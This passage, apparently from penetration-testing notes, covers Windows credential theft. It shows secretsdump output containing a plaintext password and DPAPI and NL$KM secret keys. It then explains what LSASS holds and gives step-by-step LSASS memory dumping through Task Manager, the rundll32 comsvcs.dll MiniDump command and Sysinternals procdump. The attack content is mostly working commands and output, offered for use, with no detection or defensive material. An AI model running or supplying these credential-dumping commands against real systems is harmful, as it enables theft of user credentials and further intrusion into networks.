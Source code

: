 ### Extracting LSA Secrets
```bash
# From secretsdump output
[*] Dumping LSA Secrets
WS01\worker:Hello123
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
```

## LSASS Attacks

### Overview
LSASS (Local Security Authority Subsystem Service) is a core Windows process that:
- Enforces security policies
- Handles user authentication
- Stores sensitive credential material in memory
- Caches credentials from active logon sessions

### LSASS Memory Dumping Methods

#### 1. Task Manager Method (GUI Required)
```bash
# Steps:
1. Open Task Manager
2. Go to Processes tab
3. Find "Local Security Authority Process"
4. Right-click → "Create dump file"
5. File saved to %temp%\lsass.DMP
```

#### 2. Rundll32.exe & Comsvcs.dll Method
```cmd
# IMPORTANT: Run PowerShell/CMD as Administrator!
# LSASS dumping requires administrative privileges

# Find LSASS PID
tasklist /svc | findstr lsass.exe

# Or with PowerShell
Get-Process lsass

# Create dump file (replace 664 with actual PID)
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 664 C:\lsass.dmp full
```

#### 3. Using Procdump
```cmd
# Download Procdump from Microsoft Sysinternals
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# Alternative with PID
procdump64.exe -accepteula -ma 664 lsass.dmp
```
